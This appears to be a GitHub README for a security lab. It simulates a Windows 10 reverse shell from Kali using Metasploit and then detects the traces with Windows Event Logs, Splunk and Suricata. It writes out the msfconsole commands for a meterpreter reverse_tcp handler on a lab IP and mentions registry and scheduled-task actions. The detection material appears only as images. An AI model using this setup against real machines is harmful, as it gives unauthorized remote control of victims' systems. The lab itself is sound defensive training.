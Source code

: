 ## Objective: Windows reverse shell attack and detect artifacts using Windows Event Logs and Suricata.

Attacker Machine: Kali Linux / Ubuntu (Metasploit)
Victim Machine: Windows 10
Tools Used: - Metasploit (msfconsole) - Windows Event Logs - Splunk (on Ubuntu) - Suricata (network IDS)


## Attack Simulation Steps
1. Launch Metasploit multi/handler:

msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.20.10.2
set LPORT 5555
exploit

2. Establish Meterpreter session: Create files, execute payloads, modify registry, attempt scheduled tasks.

3. Artifacts Created on Victim:
   
<img width="757" height="135" alt="image" src="https://github.com/user-attachments/assets/6fa6774f-ad66-4848-8dbf-086d52f0d6e6" />


## Relevant Windows Event IDs
<img width="832" height="402" alt="image" src="https://github.com/user-attachments/assets/d57020a9-c581-4af1-a9fc-6178b744e77c" />


## Example Splunk SPL Queries
<img width="812" height="613" alt="image" src="https://github.com/user-attachments/assets/214a0b96-16b9-4ee3-a577-1107769e2804" />



 ## Screenshots of process

<img width="1691" height="416" alt="image" src="https://github.com/user-attachments/assets/23248c63-74da-4e9b-9be9-c64f4401fe2f" />

<img width="1342" height="750" alt="image" src="https://github.com/user-attachments/assets/65c465ce-6298-436a-a908-9c33f137c834" />


<img width="1368" height="847" alt="image" src="https://github.com/user-attachments/assets/ee628736-3494-476c-b034-e7a86810e345" />


<img width="1358" height="799" alt="image" src="https://github.com/user-attachments/assets/cb041ef2-1f3d-43a1-8e1f-69a9a033ce39" />

